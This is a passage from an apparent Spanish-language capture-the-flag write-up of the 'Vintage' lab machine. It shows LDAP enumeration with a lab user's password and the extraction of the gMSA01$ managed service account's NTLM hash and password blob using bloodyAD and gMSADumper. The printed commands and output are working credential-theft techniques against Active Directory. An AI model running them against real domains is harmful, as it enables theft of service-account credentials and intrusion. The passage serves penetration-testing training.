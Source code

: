 Si enumeramos a través de `ldap`, los usuarios, podemos notar que la cuenta `gmsa` forma parte del grupo `Manage Service Accounts`.

Estas son un tipo de cuenta de dominio gestionadas por el propio Domain Controller, se utilizan para ejecutar servicios en varios servidores sin tener que administrar manualmente las contraseñas

![image-center](/assets/images/posts/vintage-bloodhound-2.png)
{: .align-center}

Podemos verificar la cuenta `gMSA01$` ejecutando el siguiente comando. Usaremos el ticket cargado previamente para extraer el hash `NT` de la cuenta `gMSA01$`

~~~ bash
ldapsearch -H ldap://10.10.11.45 -D 'P.Rosa@vintage.htb' -w 'Rosaisbest123' -b 'DC=vintage,DC=htb' "(objectClass=user)" | grep dn -B 2

# gMSA01, Managed Service Accounts, vintage.htb
dn: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb

# Alternativa con bloodyAD
bloodyAD --host dc01.vintage.htb -d vintage.htb -k get object 'gMSA01$' --attr distinguishedName                    

distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
~~~

Ahora empleando el ticket, tendremos permisos para ver el hash `NT` (NTLM) de la cuenta `gMSA01$`

~~~ bash
# Utilizando gMSA Dumper (Me dió algunos problemas)
python3 gMSADumper.py -d vintage.htb -k 

# Utilizando bloodyAD
bloodyAD --host dc01.vintage.htb -d vintage.htb -k get object 'gMSA01$' --attr msDS-ManagedPassword

distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:b3a15bbdfb1c53238d4b50ea2c4d1178
msDS-ManagedPassword.B64ENCODED: cAPhluwn4ijHTUTo7liDUp19VWhIi9/YDwdTpCWVnKNzxHWm2Hl39sN8YUq3hoDfBcLp6S6QcJOnXZ426tWrk0ztluGpZlr3eWU9i6Uwgkaxkvb1ebvy6afUR+mRvtftwY1Vnr5IBKQyLT6ne3BEfEXR5P5iBy2z8brRd3lBHsDrKHNsM+Yd/OOlHS/e1gMiDkEKqZ4dyEakGx5TYviQxGH52ltp1KqT+Ls862fRRlEzwN03oCzkLYg24jvJW/2eK0aXceMgol7J4sFBY0/zAPwEJUg1PZsaqV43xWUrVl79xfcSbyeYKL0e8bKhdxNzdxPlsBcLbFmrdRdlKvE3WQ==
~~~
